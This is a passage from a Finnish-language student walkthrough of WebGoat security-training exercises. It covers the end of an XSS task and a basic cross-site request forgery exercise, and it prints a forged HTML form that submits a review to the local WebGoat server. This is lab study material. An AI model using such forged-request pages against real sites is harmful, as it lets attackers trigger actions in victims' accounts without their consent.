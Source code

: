         Siirryin saman koodinpätkän kanssa luottokortin numero-kenttään: 

        <img src="Screenshots/webgoatA7XSS7_2_creditcard_Test.png">  

        Lopputuloksena konsoliin ilmestyi teksti Hello ja tehtävänumero muuttui vihreäksi. Ilmeisesti tehtävässä on vähän vikaa WebGoatissa, koska virheviesti kuitenkin säilyi näkyvissä ruudulla.  

* A8:2013 Request Forgeries: Cross-Site Request Forgeries  
      
    - 3 "Basic Get CSRF Exercise"

        Tehtävänä on käyttää sivulla olevaa lomaketta jostain toisesta lähteestä.  
        Jos lomake lähetetään vain WebGoatin kautta saadaan seuraavalla sivulla palautteeksi:  
        	
            flag	null
            success	false
            message	"Appears the request came from the original host"

        Tässä vaiheessa minulle iski pieni hämmennys ja en hetkeen tiennyt, mitä tekisin. Avasin kuitenkin Developer Toolsit ja katselin tarkemmin lomakkeen (painikkeen) tietoja.  

        Loin itsellen uuden .html tiedoston johon laitoin ainoastaan tuon lomakkeen tiedot, muutin lomakkeen toiminnon kohteen relative linkistä palvelimen osoitteeksi, ja poistin csrf -kentästä 'hidden' arvon:  
        ``` 
        <!DOCTYPE html>
        <html>
            <body>
                <form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://192.168.56.7:8080/WebGoat/csrf/review">
                    <input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
                    <input class="form-control" id="reviewStars" name="stars" type="text">
                    <input name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
                    <input type="submit" name="submit" value="Submit review">
                </form>
        </body>
        </html>
        ``` 

        Avasin uuden luomani sivun selaimeen ja klikkkasin linkkiä:  

        <img src="Screenshots/webgoatA8-2013RequestForgSuccess2.png">
